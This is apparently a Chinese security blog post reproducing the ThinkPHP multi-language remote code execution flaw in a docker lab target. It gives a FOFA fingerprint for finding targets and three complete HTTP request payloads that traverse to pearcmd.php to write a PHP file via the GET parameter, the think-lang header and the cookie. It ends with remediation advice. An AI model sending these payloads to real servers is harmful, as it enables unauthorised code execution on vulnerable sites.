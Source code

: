 #  Thinkphp 多语言远程命令执行漏洞复现

原创 安全透视镜 [ 网络安全透视镜 ](javascript:void\(0\);)

**网络安全透视镜** ![]()

微信号 gh_0111d52251cf

功能介绍 安全类文章、资源分享为主，也会不定期分享一些其他IT资源。如果有什么需要的资源可以留言，万一找到了呢

____

___发表于_

收录于合集

# Thinkphp 多语言 RCE复现

## 漏洞描述：

若Thinkphp 程序开启了多语言功能，则可通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd
文件包含这个 trick 即可实现 RCE。

## 影响范围

Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x

## 利用条件：

1.多语言开启

2.安装了pear扩展

3.知道pearcmd.php路径

  1. register_argc_argv=on

## fofa指纹：

header="think_lang"

## 漏洞复现：

开启靶机环境

docker run -it -d -p 80:80  vulfocus/thinkphp:6.0.12

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144200.png)

 **Get:**

  *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/?index.php+config-create+&lang=../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/var/www/html/4.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeCookie: think_lang=zh-cnUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

(6.0未成功，5.0成功)

 **Header:**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/index.php?+config-create+/<?=phpinfo()?>+/var/www/html/1.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closethink-lang:../../../../../../../../usr/local/lib/php/pearcmdCookie: think_lang=zh-cnUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144213.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144216.png)

 **Cookie:**

  *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/index.php?+config-create+/<?=phpinfo()?>+/var/www/html/3.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeCookie:think_lang=../../../../../../../../usr/local/lib/php/pearcmdUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144219.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144222.png)

## 源码分析：

http://tttang.com/archive/1865/

## 修复建议：

1、若无必要，可关闭多语言功能，可参考文档

https://www.kancloud.cn/manual/thinkphp6_0/1037637

https://static.kancloud.cn/manual/thinkphp5/118132

2、官方已发布6.0.14、5.1.42，建议升级至安全版本。

https://github.com/top-
think/framework/commit/c4acb8b4001b98a0078eda25840d33e295a7f099

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

